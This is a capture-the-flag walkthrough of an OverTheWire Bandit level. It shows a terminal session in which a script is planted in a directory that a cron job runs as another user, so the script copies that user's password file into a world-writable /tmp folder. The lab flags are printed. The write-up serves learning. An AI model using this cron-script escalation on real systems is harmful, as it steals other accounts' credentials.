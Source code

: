 # Bandit Level 22 → Level 23 Cronjobs

## Previous Flag
<b>0Zf11ioIjMVN551jX3CmStKLYqjk54Ga</b>

## Goal
Use previous password to log in SSH with user <b>bandit23</b> on port <b>2220</b>. A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in <b>/etc/cron.d/</b> for the configuration and see what command is being executed.

NOTE: This level requires you to <b>create your own first shell-script</b>
NOTE: Your shell <b>script is removed once executed</b>, so you may want to keep a copy around …

## What I learned
```
mktemp -d:                  not work due to restrictions set by sysAdmin
/var/spool/$myname/foo      folder where script deletes bandit24
/tmp/                       no access, exploit w/ creating subfolder
deeper understanding of cron
```

## Solution
```
@trungdullc ➜ /workspaces/01noobHacker (main) $ ssh bandit23@bandit.labs.overthewire.org -p 2220 ⌨️
bandit23@bandit:~$ whatis chmod cron crontab ⌨️
chmod (1)            - change file mode bits
chmod (2)            - change permissions of a file
cron (8)             - daemon to execute scheduled commands (Vixie Cron)
crontab (1)          - maintain crontab files for individual users (Vixie Cron)
crontab (5)          - tables for driving cron
bandit23@bandit:~$ man 5 crontab ⌨️
CRONTAB(5)                                                  File Formats Manual                                                 CRONTAB(5)

NAME
       crontab - tables for driving cron

DESCRIPTION
       A  crontab  file  contains  instructions to the cron(8) daemon of the general form: ``run this command at this time on this date''.
       Each user has their own crontab, and commands in any given crontab will be executed as the user who owns  the  crontab.   Uucp  and
       News will usually have their own crontabs, eliminating the need for explicitly running su(1) as part of a cron command.

 Manual page crontab(5) line 1 (press h for help or q to quit)
bandit23@bandit:/etc/cron.d$ ls ⌨️
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup    otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 ⌨️
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh ⌨️
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/everyoneaccess && chmod 777 /tmp/everyoneaccess ⌨️
bandit23@bandit:/etc/cron.d$ vi /tmp/everyoneaccess/main.sh ⌨️
bandit23@bandit:/etc/cron.d$ cat /tmp/everyoneaccess/main.sh ⌨️
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/everyoneaccess/pass.txt
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh ⌨️
-rw-rw-r-- 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ chmod +x /tmp/everyoneaccess/main.sh ⌨️
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh ⌨️
-rwxrwxr-x 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ cp /tmp/everyoneaccess/main.sh /var/spool/bandit24/foo/ ⌨️
bandit23@bandit:/tmp/everyoneaccess$ cat pass.txt ⌨️                             # Wait 1 min
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 🔐
```

## Flag
<b>gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8</b>

## Continue
[Continue](/overthewire/Bandit2324.md)